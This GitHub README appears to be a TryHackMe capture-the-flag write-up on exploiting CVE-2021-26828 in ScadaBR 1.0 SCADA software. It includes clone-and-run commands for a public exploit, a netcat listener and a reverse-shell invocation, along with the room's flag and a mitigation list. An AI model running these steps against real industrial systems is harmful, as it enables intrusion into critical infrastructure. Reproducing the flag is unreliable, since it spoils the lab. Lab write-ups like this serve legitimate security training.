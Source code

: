 # CVE-2021-26828 – ScadaBR 1.0 Remote Code Execution (TryHackMe – Industrial Intrusion: Web Brr v1)

> ⚠️ **Disclaimer**  
This repository is intended strictly for educational and research purposes only.  
The information and code provided here can be used in **controlled environments**, such as private lab machines or platforms like TryHackMe.  
**Unauthorized use of this code against systems you do not own or have explicit permission to test is illegal and unethical.**  
The author is not responsible for any misuse or damages caused.

---

## 🔍 About the Vulnerability

An unauthenticated Remote Code Execution vulnerability exists in **ScadaBR 1.0**, which is based on the **Mango M2M** framework.  
This vulnerability (CVE-2021-26828) allows attackers to inject arbitrary code through the SQL script execution mechanism.

In TryHackMe's *Industrial Intrusion* room (Task 10 – Web Brr v1), a forgotten HMI node was found running a vulnerable ScadaBR interface that could be exploited using this CVE.

- **CVE ID:** CVE-2021-26828  
- **Exploit-DB:** Not listed (hosted on GitHub)  
- **Vulnerable Application:** ScadaBR 1.0 (Mango M2M fork)  
- **Impact:** Remote Code Execution  
- **Authentication Required:** ❌ No (depending on deployment)  
- **Network Access Required:** ✅ Yes  

---

## 📂 Exploit Overview

- **Exploit Type:** Script Injection → Reverse Shell  
- **Exploit Title:** ScadaBR 1.0 – Remote Code Execution  
- **Source:** [hev0x/CVE-2021-26828_ScadaBR_RCE](https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE)  
- **Language:** Python  
- **Authentication Required:** ❌ No  

---

## ⚙️ Exploit Usage

> 🐍 Exploit script: `exploit.py` from the GitHub repository

### 🔧 Modify and Run

1. Clone the repo:
   ```bash
   git clone https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE
   cd CVE-2021-26828_ScadaBR_RCE
   ```

2. Edit the script to match your listener port and target IP if needed.

3. Start your Netcat listener:
   ```bash
   nc -nlvp 4444
   ```

4. Run the exploit:
   ```bash
   python3 exploit.py --rhost <target-ip> --lhost <your-ip> --lport 4444
   ```

> ✅ A reverse shell should be returned to your listener on successful execution.

---

## 📸 Demonstration

1. **Accessing the Vulnerable SCADA Interface**  
   ![SCADA Interface](./img/interface.png)

2. **Running the Exploit Script**  
   ![Exploit Execution](./img/exploit.png)

3. **Reverse Shell Received**  
   ![Shell](./img/shell.png)

> 💡 *Images are optional and can be hosted via GitHub issues or embedded as needed.*

---

## 🏁 Flag Captured

After gaining shell access in the TryHackMe room, the flag was retrieved using:

```bash
cat /home/user/flag.txt
```

### 🎉 Flag:
```
THM{rce_archieved_through_script_injection}
```

---

## 🔒 Mitigation

- Upgrade to a secure or maintained version of ScadaBR or Mango  
- Disable SQL script execution features if not in use  
- Enforce network segmentation for SCADA/HMI systems  
- Monitor for unusual outbound traffic from SCADA zones  
- Restrict public exposure of SCADA interfaces and admin panels  

---

## 📚 References

- [https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE](https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE)  
- [TryHackMe – Industrial Intrusion](https://tryhackme.com/room/industrialintrusion)

---

## ✍️ Blog Walkthrough

Check out the detailed explanation and lab demonstration in the Medium blog:  
👉 **[Read the Medium blog](https://medium.com/@sakshi.infosec)**

---

## 👩‍💻 Author

**CyberQuestor-infosec**  
🔗 [GitHub](https://github.com/CyberQuestor-infosec) | ✍️ [Medium](https://medium.com/@sakshi.infosec)
